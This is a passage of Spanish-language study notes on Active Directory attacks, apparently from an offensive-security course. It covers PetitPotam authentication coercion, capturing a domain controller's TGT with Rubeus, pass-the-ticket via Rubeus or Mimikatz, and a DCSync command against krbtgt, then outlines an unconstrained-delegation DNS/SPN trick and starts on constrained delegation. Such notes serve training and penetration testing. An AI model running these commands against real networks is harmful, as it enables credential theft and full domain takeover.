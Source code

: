 PetitPotam utiliza la función ``EfsRpcOpenFileRaw`` del protocolo MS-EFSRPC (Encrypting File System Remote Protocol) y no necesita credenciales cuando se utiliza contra un DC.

```
### Forzar autenticación de us-dc sobre us-web
### PetitPotam.exe (https://github.com/topotam/PetitPotam)
.\PetitPotam.exe us-web us-dc

### Capturar el TGT de us-dc$ en us-web
### Rubeus
.\Rubeus.exe monitor /interval:5
```

Una vez obtenido el TGT del equipo, se debe realizar un PassTheTicket:

```
### Copia el TGT codificado en base64 y usalo en la maquina atacante
### Opcion 1
Rubeus.exe ptt /ticket:

### Invoke-Mimikatz
### Opcion 2
[IO.File]::WriteAllBytes("C:\AD\Tools\USDC.kirbi", [Convert]::FromBase64String("ticket_from_Rubeus_monitor"))
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'
```

Y con el TGT en la sesión se pueden, se pueden acceder a recursos compartidos, obtener acceso mediante WinRM o hasta realizar DCSync(si es que se tienen los suficientes permisos): 

```
### Ejecutar DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```
#### Adicional

Solo como dato adicional, lo siguiente es un ataque desde Linux (no es parte del curso):
Si se compromete una cuenta de usuario(servicio) con "Unconstrained delegation" y se tienen permisos para modificar el SPN del mismo entonces ejecutar el siguiente ataque. 
1. Crear un registro DNS que apunte a nuestra máquina de ataque. Este registro DNS será un equipo falso en el entorno de Active Directory. 
2. Una vez registrado este registro DNS, añadiremos el SPN ``CIFS/nuestro_registro_dns`` a la cuenta que hemos comprometido, que se encuentra en una delegación no restringida. 
3. Así, si una víctima intenta conectarse a través de SMB a nuestra máquina falsa, enviará una copia de su TGT en su ticket TGS, ya que solicitará un ticket para ``CIFS/nuestro_registro_dns``. 
4. Este ticket TGS se enviará a la dirección IP que elegimos al registrar el registro DNS, es decir, nuestra máquina de ataque. Todo lo que tenemos que hacer entonces es extraer el TGT y utilizarlo. Este ataque también implica Coerced Authentication.
### Kerberos Delegation - Constrained Delegation

- Restringe los servicios a los que el servidor o cuenta de servicio puede actuar en nombre de un cliente.
- Unconstrained guarda TGT, Constrained no guarda TGT.
- Para realizar esto se realizaron algunas nuevas extensiones de kerberos (s4u)
	Kerberos protocol transition extension, S4U2Self
	Kerberos constrained delegation extension, S42Proxy
##### S4U2Self
